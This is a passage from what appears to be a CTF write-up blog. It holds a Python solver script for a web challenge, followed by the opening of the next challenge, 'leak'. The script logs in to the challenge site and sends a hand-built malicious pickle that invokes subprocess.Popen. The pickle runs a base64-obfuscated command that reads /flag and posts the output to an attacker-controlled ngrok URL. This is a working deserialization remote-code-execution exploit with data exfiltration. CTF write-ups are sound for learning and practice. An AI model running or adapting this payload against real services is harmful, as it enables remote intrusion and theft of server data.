 ```python:solver.py
import base64
import requests
import pickle
from struct import pack

URL = "http://fbc65afab162328491c2667f0bfdb097.chall.w1playground.com:8082/"
# URL = "http://localhost:3002/"
EVIL = "https://xxx.ngrok.app/"

s = requests.session()
data = {
    "username": "tchen",
    "password": "pass"
}
r = s.post(URL + "register", data=data)
r = s.post(URL + "login", data=data)
print(r.status_code)
print(r.text)
cmd = 'cat /flag'
script = f"from urllib.request import urlopen;import os;urlopen('{EVIL}',data=os.popen('{cmd}').read().encode())"

cmd = ["python", "-c", f"from base64 import b64decode;exec(b64decode(b'{base64.b64encode(script.encode()).decode()}'))"]

def pklstr(s):
    return pickle.BINSTRING + pack('<i', len(s)) + s.encode()
        
        
pkl = (
    pickle.MARK + 
    pickle.MARK + 
    b"".join([pklstr(c) for c in cmd]) + 
    pickle.LIST + 
    pickle.INST + b"subprocess\nPopen\n"
)

r = s.post(URL + "process", data={
    "payload": base64.b64encode(pkl)
})
```

## ✅ leak (480pts 10 solves)

### Overview

![](/assets/blog/wannagame/image.png)

On this website, you can browse and search for premade posts. The goal of the challenge is to retrieve the content of the post created by the admin.
